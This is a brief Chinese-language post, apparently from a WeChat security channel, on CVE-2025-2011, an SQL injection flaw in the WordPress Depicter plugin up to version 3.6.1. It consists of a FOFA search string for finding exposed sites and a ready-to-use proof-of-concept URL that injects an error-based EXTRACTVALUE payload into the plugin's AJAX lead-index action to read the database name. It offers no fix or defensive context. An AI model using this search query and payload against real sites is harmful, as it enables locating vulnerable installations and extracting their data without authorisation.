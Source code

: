 #  WordPress depicter插件SQL注入漏洞（CVE-2025-2011）   
清晨  摸鱼划水   2025-05-07 08:49  
  
FOFA  
```
"wp-content/plugins/depicter/"
```  
  
影响版本  
```
depicter <= 3.6.1
```  
  
POC  
```
http://127.0.0.1/wp-admin/admin-ajax.php?s=test%25'%20AND%20EXTRACTVALUE(1,CONCAT(0x7e,(database()),0x7e))='&perpage=20&page=1&orderBy=source_id&dateEnd=&dateStart=&order=DESC&sources=&action=depicter-lead-index
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic82wvDY7ZkjAfeI6A1GIvf6W597nYnVZFrQ2w0RpK2X9icnAREfTjadBDehxJ1IHkTWnZicZOR0avcyA/640?wx_fmt=jpeg&from=appmsg "")  
  
  

